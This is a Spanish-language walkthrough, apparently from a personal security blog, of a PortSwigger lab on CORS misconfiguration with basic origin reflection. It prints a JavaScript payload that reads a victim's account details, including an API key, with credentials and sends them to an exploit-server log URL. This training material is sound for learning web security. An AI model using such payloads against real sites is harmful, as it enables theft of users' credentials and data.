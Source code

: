 ```yaml
---
title: CORS vulnerability with basic origin reflection
description: Laboratorio de Portswigger sobre CORS
date: 2025-04-05 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - CORS
tags:
  - Portswigger Labs
  - CORS
  - CORS vulnerability with basic origin reflection
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `sitio web` tiene una configuración `insegura` de `Cross-Origin Resource Sharing (CORS)`, ya que confía en `todos los orígenes`. Para `resolver` el `laboratorio`, debemos crear un script de `JavaScript` que utilice `Cross-Origin Resource Sharing (CORS)` para obtener la `clave API` del `administrador` y subir el `script` a nuestro `servidor de explotación`. El `laboratorio` se considerará resuelto cuando enviemos con éxito la `clave API` del `administrador`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Guía de CORS

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de CORS` [https://justice-reaper.github.io/posts/CORS-Guide/](https://justice-reaper.github.io/posts/CORS-Guide/)

## Resolución

Al `acceder` a la `web` vemos esto

![](/assets/img/CORS-Lab-1/image_1.png)

Hacemos `click` sobre  `My account` y nos `logueamos` con las credenciales `wiener:peter`

![](/assets/img/CORS-Lab-1/image_2.png)

Vemos que podemos `cambiar` nuestro `email` y una clave `API`

![](/assets/img/CORS-Lab-1/image_3.png)

Cuando accedemos a `/my-account` después de `iniciar sesión` vemos que se manda una `petición` a `/accountDetails` y `recibimos` una `respuesta` con los `datos` de nuestro `usuario`. Lo destacable de esto es que el `servidor` nos `responde` con la cabecera `Access-Control-Allow-Credentials: true`

![](/assets/img/CORS-Lab-1/image_4.png)

Si `mandamos` esta `petición` al `Repeater` e `inyectamos` la cabecera `Origin: https://vulnerable.com` se ve `reflejada` en la `respuesta`

![](/assets/img/CORS-Lab-1/image_5.png)

Que el `servidor` responda con la cabecera `Access-Control-Allow-Credentials: true` no lo hace vulnerable. Lo que lo hace vulnerable es la `combinación` de esa cabecera con `Access-Control-Allow-Origin: *` o, como en este caso, que no `valide la cabecera` y nos deje proporcionar a nosotros una `Access-Control-Allow-Origin: https://vulnerable.com`. Cuando se cumplen estos `requisitos`, podemos aprovechar estas `políticas de CORS inseguras` para obtener `datos de otros usuarios`. Para ello, nos dirigimos al `Exploit server` y construimos este `payload`

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://0a4c0053031c0975805453b000ba00f4.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = 'https://exploit-0a6200f003d609a280ef523c01720026.exploit-server.net/log?key=' + this.responseText;
    };
</script>
```

Pulsamos sobre `View exploit`, nos dirigimos a `Access log` y vemos cómo se ha hecho una `petición` a nuestro `exploit` y posteriormente se `envían` los `datos del usuario víctima` a `nuestro servidor`

![](/assets/img/CORS-Lab-1/image_6.png)

Una vez que hemos comprobado que funciona `pulsamos` sobre `Deliver exploit to victim`, nos dirigimos al `Access log` y vemos que `recibimos información del usuario víctima` en `formato URL encoded`

![](/assets/img/CORS-Lab-1/image_7.png)

Nos dirigimos al `Decoder`, `pegamos` la información obtenida y la `URL decodeamos`

![](/assets/img/CORS-Lab-1/image_8.png)

Nos `copiamos` al `apiKey`, pulsamos en `Submit solution` y la `pegamos`

![](/assets/img/CORS-Lab-1/image_9.png)
